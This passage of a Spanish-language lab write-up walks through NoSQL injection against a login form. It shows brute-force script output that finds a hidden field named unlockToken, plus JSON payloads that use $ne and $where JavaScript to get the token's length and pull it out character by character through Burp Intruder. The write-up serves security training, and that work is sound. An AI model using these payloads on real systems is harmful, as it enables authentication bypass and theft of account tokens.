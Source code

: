`Obtenemos` el `nombre` del `campo` del `documento` de `JavaScript`

```
# python3 nosqli.py
[▖] Fuerza bruta: function(){ if(Object.keys(this)[4].match('^.{10}n.*')) return 1; else 0; }
[...../..] Output: unlockToken
```

`Obtenemos` que `16` es la `longitud` del `valor` que tiene el campo `unlockToken` gracias a este `payload`

```
{
  "username": "carlos",
  "password": {
    "$ne": "testing"
  },
  "$where": "function(){ if(this.unlockToken.length == 16) return 1; else return 0; }"
}
```

![](/assets/img/NoSQLI-Lab-4/image_30.png)

`Cambiamos` el `payload anterior` por este otro, `mandamos` la `petición` al `Intruder`, `seleccionamos` como tipo de ataque `Cluster bomb` y `seleccionamos` las `posiciones` en las que van los `payloads`

```
{
  "username": "carlos",
  "password": {
    "$ne": "testing"
  },
  "$where": "function(){ if(this.unlockToken.match('^.{0}a.*')) return 1; else return 0; }"
}
```
